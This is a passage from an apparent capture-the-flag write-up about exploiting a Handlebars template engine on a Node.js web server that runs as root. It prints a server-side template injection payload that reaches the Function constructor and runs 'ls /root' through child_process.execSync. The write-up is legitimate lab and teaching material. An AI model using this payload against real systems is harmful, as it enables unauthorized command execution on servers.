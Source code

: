 ```
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

![flag](./Screenshots/bikeflag.png)

Nothing interesting. 

From the previous attempts we know that web server is running in the context of the
`root` user. Knowing it, we are goint to list all files and folders in the root directory.

To do that, type:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('ls /root')"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
```